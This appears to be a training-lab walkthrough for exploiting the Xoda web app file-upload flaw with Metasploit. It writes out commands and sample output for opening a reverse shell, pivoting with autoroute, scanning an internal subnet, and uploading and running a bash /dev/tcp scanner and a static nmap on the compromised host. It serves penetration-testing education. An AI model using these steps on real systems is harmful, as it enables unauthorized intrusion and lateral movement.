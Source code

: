 # 📦 Metasploit - Xoda File Upload Exploit & Post-Exploitation

This walkthrough shows how to exploit a vulnerable **Xoda web application** with Metasploit, gain a shell, pivot into an internal network, and use custom port scanning tools.

---

## 🎯 Steps Overview
1. Exploit the vulnerable web app (Xoda File Upload)  
2. Gain shell access  
3. Add routes for pivoting  
4. Scan internal network with Metasploit & custom tools  
5. Upload & execute static binaries  

---

## 1. Exploit Xoda File Upload
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```

📸 **Sample Output:**
```
[*] Started reverse TCP handler on 192.63.4.2:4444
[*] Sending exploit...
[*] Command shell session 1 opened
```

🔍 **Interpretation:**
- Exploit uploads a malicious file to the vulnerable app.  
- Reverse shell successfully opened (Session 1).  

---

## 2. Interact with Shell
```bash
shell
ip addr
```

📸 **Sample Output:**
```
inet 192.180.108.2/24 brd 192.180.108.255 scope global eth0
```

🔍 **Interpretation:**
- Target machine has IP `192.180.108.2`.  
- Confirms internal network presence.  

---

## 3. Add Route for Pivoting
```bash
run autoroute -s 192.180.108.2
```

📸 **Sample Output:**
```
Route added to subnet 192.180.108.0/255.255.255.0
```

🔍 **Interpretation:**
- Traffic to the internal subnet will now be routed through the compromised host.  
- Enables pivoting deeper into the network.  

---

## 4. TCP Port Scan from Metasploit
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set VERBOSE false
set PORTS 1-1000
exploit
```

📸 **Sample Output:**
```
Discovered open port 21/tcp on 192.180.108.3
Discovered open port 22/tcp on 192.180.108.3
Discovered open port 80/tcp on 192.180.108.3
```

🔍 **Interpretation:**
- Found FTP(21), SSH (22) and HTTP (80) open.  
- Indicates live services inside the pivoted network.  

---

## 5. Locate Static Nmap Binary
```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

📸 **Sample Output:**
```
-rwxr-xr-x 1 root root 2500000 Apr 10  nmap
nmap: ELF 64-bit LSB executable, statically linked
```

🔍 **Interpretation:**
- Found precompiled static **Nmap binary**.  
- Useful when target does not have Nmap installed.  

---

## 6. Custom Bash Port Scanner
```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

📸 **Sample Output:**
```
port 21 is open
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Simple Bash script to scan ports without Nmap.  
- Uses `/dev/tcp` to test connectivity.  

---

## 7. Interact with Session
```bash
sessions -i 1
```

📌 Goes back into the compromised session to continue post-exploitation.  

---

## 8. Upload Tools
```bash
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

📸 **Sample Output:**
```
[*] Uploading nmap -> /tmp/nmap
[*] Uploading bash-port-scanner.sh -> /tmp/bash-port-scanner.sh
```

🔍 **Interpretation:**
- Both Nmap binary and custom scanner uploaded to `/tmp/` on target.  

---

## 9. Execute Tools on Target
```bash
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```

📸 **Sample Output:**
```
port 21 is open
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Verified the Bash script works from inside the compromised target.  

---

## 10. Run Nmap on Target
```bash
./nmap -p- 192.180.108.3
```

📸 **Sample Output:**
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
```

🔍 **Interpretation:**
- Full Nmap scan shows ports 21, 22, and 80 are open.  
- Confirms target services for further exploitation.  
